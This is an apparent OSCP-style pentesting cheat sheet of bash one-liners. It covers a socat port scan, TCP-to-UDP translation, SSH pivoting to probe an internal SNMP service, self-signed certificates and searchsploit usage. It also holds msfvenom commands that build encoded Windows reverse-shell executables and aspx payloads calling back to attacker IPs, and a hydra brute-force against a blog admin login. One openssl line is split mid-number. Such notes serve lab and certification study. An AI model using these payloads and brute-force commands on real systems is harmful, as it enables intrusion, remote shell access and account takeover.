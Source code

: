 ```bash
```



## Scan open ports using Socat
```bash
for i in `seq 1 65535`; do socat - TCP:server_ip:$i ; done 2>/dev/null
```

## translate TCP traffic to UDP using Socat
```bash
socat -v TCP-LISTEN:13337,fork UDP:server_ip:161
#listens on local port 13337 for a TCP packet, translates it to UDP packet and forwards it to server_ip:port
```

## Tunnel UDP packet to an_internal_box via a SSH tunnel  (local UDP > TCP -> pivot -> TCP > UDP -> target UDP)
```bash
mkfifo /tmp/fifo; sudo nc -l -u -p 161 < /tmp/fifo | nc localhost 1234 > /tmp/fifo 
# nc listens on local UDP port 161, wraps UDP traffic to TCP, forwards TCP packet to local port 1234  
ssh user@server_ip -L 1234:servers_internal_ip:13337
# ssh through server_ip and forward traffic from port 1234 of our local box to port 13337 of server's internal_ip
socat -v TCP-LISTEN:13337,fork UDP:an_internal_box:161 # run it from 2nd box
#listens on local port 13337 for a TCP packet, translates it to UDP packet and forwards it to an_internal_box:port

# now for example running snmpwalk against localhost will probe an_internal_box's 161 box
snmpwalk -v2c -c public 127.0.0.1
# snmp is a udp-based protocol and since ssh tunnel is TCP based we did the above process first 
```

## create self-signed ssl certificate
```bash
openssl req -newkey rsa:2048 -nodes -keyout my_cert.key -x509 -days 36
2 -out my_cert.crt

# convert to .pem if needed:
openssl pkcs12 -export -in my_cert.crt -inkey my_cert.key -out my_cert.p12
openssl pkcs12 -in my_cert.p12 -nodes -out my_cert.pem
```

## searchsploit
```bash
searchsploit -www query # show exploitdb link instead
searchsploit -x /path/to/exploit # read the exploit file
searchsploit -m /path/to/exploit # mirror exploit file to current directory
```
## oscp friendly rev shell aspx
```bash
msfvenom -f exe -p windows/shell_reverse_tcp LHOST=10.10.14.27 LPORT=443 -e x86/shikata_ga_nai -o rev.exe
oscp friendly exe
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=9001 -o nasa.aspx 
```
## hydra web form bruteforce
```bash
hydra -l admin -P ~/git/SecLists/Passwords/Leaked-Databases/rockyou-50.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect username"
```